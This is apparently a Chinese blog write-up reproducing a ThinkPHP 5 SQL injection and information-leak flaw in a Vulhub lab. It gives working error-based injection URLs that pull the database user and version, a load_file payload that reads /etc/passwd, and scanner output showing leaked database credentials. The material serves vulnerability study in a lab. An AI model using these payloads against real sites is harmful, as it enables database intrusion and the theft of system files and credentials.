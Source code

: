 ```yaml
---
title: 【Thinkphp漏洞复现】ThinkPHP5 SQL注入与敏感信息泄露
date: 2025-09-04
categories:
  - Web攻防
  - 靶场
  - 红队
image: images/32.webp
---
```

# 环境搭建
```
进入Vulhub
cd vulhub-master\thinkphp\in-sqlinjection
docker compose up -d # 启动后为空白页面，需通过Payload触发漏洞
```
搭建好后是空白页面
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904104644.png)

# 漏洞利用
## 报错注入 Payload：
```
http://your-ip:8080/index.php?ids[0,updatexml(0,concat(0xa,user(),0xa),0)]=1
```
- 执行后会显示数据库用户信息（如`root@localhost`）。
## 信息泄露利用：
- 获取数据库版本：`ids[0,updatexml(0,concat(0xa,version()),0)]=1`
- 读取文件：`ids[0,load_file('/etc/passwd')]=1`（需数据库权限）
利用报错来查看版本信息
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904104802.png)
利用工具进行测试：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904104819.png)
# 其他
```
[+] 存在ThinkPHP 5 SQL注入漏洞 && 敏感信息泄露
Payload: http://localhost//index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
[+] 存在ThinkPHP 5.x 数据库信息泄露
Payload: username:root hostname:mysql password:root database:cat
```

